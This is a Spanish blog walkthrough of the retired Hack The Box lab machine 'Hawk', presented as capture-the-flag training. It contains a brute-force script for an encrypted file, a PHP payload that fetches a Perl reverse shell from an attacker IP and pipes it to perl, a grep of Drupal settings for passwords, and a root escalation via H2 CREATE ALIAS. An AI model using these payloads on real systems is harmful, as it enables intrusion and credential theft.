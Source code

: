 Hola !  
Esta semana, se retiró `HAWK` de HTB, una máquina de dificultad media, la cual posee un entretenido privesc, aquí va mi solución :) ! 

![HawkIcon](https://cntr0llz.cl/wp-content/uploads/2018/12/hawkicon.png)

  
1. [Recon](#Recon)
2. [user.txt](#user.txt)
3. [root.txt](#root.txt)




## Recon

Para comenzar, veremos el output del escaneo de puertos:

`nmap -sC -sV -A -T5 -o hawk.nmap 10.10.10.102` 

![Nmap image](https://cntr0llz.cl/wp-content/uploads/2018/12/nmap.png)

Una vez obtenido el resultado, se se logran ver un par de cosas interesantes:  

* ftp
* ssh
* Portal drupal, puerto 80 (CMS drupal)
* H2 SQL - database manager


## user.txt

Si vamos en orden con los puertos, veremos qué dentro del ftp hay un par de archivos, el login anónimo está activado, aprovechando esto, podemos descargar el contenido.  Veremos que es un archivo encriptado con ssl:  

![FTP](https://cntr0llz.cl/wp-content/uploads/2018/12/ftp1-1.png)  
  
	  
		
![FILE](https://cntr0llz.cl/wp-content/uploads/2018/12/file-1.png)

Hay 2 maneras simples de desencriptar el archivo: 

* openssl
* bruteforce-salted-openssl

Lo que buscaremos es la `phassphrase` con la que fue encriptado el mensaje...  

Optamos por hacer un pequeño script en python que itere sobre los CBC ciphers y digests disponibles (Bastantes).


```python

import time
import subprocess
import sys

cip = open("ciphers.txt",'r')
dig = open("digests.txt",'r')
cmd = ''
ciphers = []
digg = []
for c in cip:
    ciphers.append(c.strip().split()[0])
for d in dig:
    digg.append(d.strip().split()[0])
cip.close()
dig.close()
#print ciphers
#print digg
for c in ciphers:
    cmd = ''
    for d in digg:
        cmd = ""
        cmd+="bruteforce-salted-openssl -c "  
        cmd+= c
        cmd+=" -d "
        cmd+=d
        cmd+=" -1 -N -f dict drupal.txt"
        output = subprocess.check_output(cmd,  stderr=subprocess.STDOUT, shell=True)
        out = output.strip()
        out = out.split()
        if 'candidate:' in out:
            print "FOUND"
            print cmd
            print output
            sys.exit(0)
        #time.sleep(0.05)

```
  
	   
		 
Nota: Si nos vamos de cabeza con `rockyou.txt`, tendremos para medio año, así que usaremos un diccionario estilo `1000commons.txt`.  


![output script](https://cntr0llz.cl/wp-content/uploads/2018/12/scriptout-1.png)    
  
	  
		

Una vez desencriptado el mensaje, podemos conseguir un potencial nombre de usuario `daniel` y una potencial password `PencilKeyboardScanner123`  
  
  
![decrypted](https://cntr0llz.cl/wp-content/uploads/2018/12/decrypted-1.png)


Si vamos ahora al puerto 80, donde está el CMS drupal, podemos probar un par de credenciales, hasta dar con la que corresponde :  


` admin:PencilKeyboardScanner123 `  
  
	

Dentro del gestor de contenido, podemos darnos unas vueltas y ver como funciona.
Si observamos la pestaña `m̀odules`, podremos habilitar un módulo que permite que el servidor evalue código `PHP`, y luego crear una entrada con código php.


```
<?php
	echo system("curl 10.10.16.74:8000/oneline_rev.pl | perl");
?>
```

Con esto, y teniendo un servidior http sirviendo ( `$ python -m SimpleHTTPServer` ) la reverse shell, logramos obtener la shell como `www-data`


![www-data reverse](https://cntr0llz.cl/wp-content/uploads/2018/12/shell-1.png)

  
	

Una vez dentro, obtenemos el posible usuario `daniel`, y su user.txt

![user.txt](https://cntr0llz.cl/wp-content/uploads/2018/12/user.png)
  
## root.txt

Enumerando un poco obtenemos un par de cosas interesantes, aunque lo que más llama la atención, es lo que vimos en el scan de `nmap`, el gestor de bases de datos SQL `H2` que además lo corre como `root`. Si investigamos un poco de este manager, podemos obtener mucha información interesante, por el momento, deseamos entrar a ver qué hay.  
Si entramos a `http://10.10.10.102:8082`, veremos que solo es visible desde adentro, por lo que tendremos que optar por un forwardeo de puertos, aquí tenemos 2 opciones para lograr un forwardeo de puertos.  
  
	
	* Buscar un usuario dentro ( Daniel), para lograr conectarnos por ssh hacia adentro.
	* Forwardear de manera inversa, osea, correr ssh en nuestra máquina local y bindear inversamente el puerto.

Haremos la segunda opción, btw, si se desean obtener las credenciales de daniel, deberemos buscar en las configuraciones de php

```console
$ cat /var/www/html/sites/default/settings.php | grep password
```

Obtenemos las credenciales: `daniel:drupal4hawk`

Como optamos por hacer el forwarding inverso, debemos poner a la escucha un servicio ssh en nuestra máquina local:

`$ systemctl start sshd`

Y luego conectarnos:  


```console
 $ ssh -R 5555:localhost:8082 fade@10.10.14.5 
```

Con esto, le diremos a `ssh` que bindee el puerto 5555 de la máquina donde nos estamos conectando, a nuestro localhost:8082

Habiendo hecho esto, ya tendremos acceso al portal de `h2`

![h2 database](https://cntr0llz.cl/wp-content/uploads/2018/12/h2porta-1.png)

una vez aquí, podemos investigar como funciona el portal, y buscar las credenciales por defecto, que son: `sa:`.
Aunque la plataforma nos diga que las credenciales están erróneas, puede ser que sea otro el error, si cambiamos la dirección de la DB.

`jdbc:h2:~/test` -> `jdbc:h2:~`  

boom, entramos !  

Una vez dentro, vemos que el portal nos permite correr comandos `SQL`... Pero teniendo en cuenta que esta aplicación está hecha en java, podemos leer de la documentación que somos capaces de crear un `alias` de un comando java, por tanto, ejecución de código. [(REF)](http://h2database.com/html/grammar.html#create_alias)   


![payload](https://cntr0llz.cl/wp-content/uploads/2018/12/getreverse-1.png)  

Esto, junto con un archivo creado previamente que contenga una reverse shell previamente escrita en `/tmp/escalate.sh`, podremos ejecutarla y conseguir la reverse shell como root. [(reverses shells)](https://github.com/jcatala/h4ckme)

![root.txt](https://cntr0llz.cl/wp-content/uploads/2018/12/root.png)

yay !  

Espero que se haya entendido todo, cualquier consulta no duden en preguntar (: !

Se despide: 
	![f4d3b4dg3](https://www.hackthebox.eu/badge/image/40513)
	`Happy - h4ck1ng 4fun&$$! `




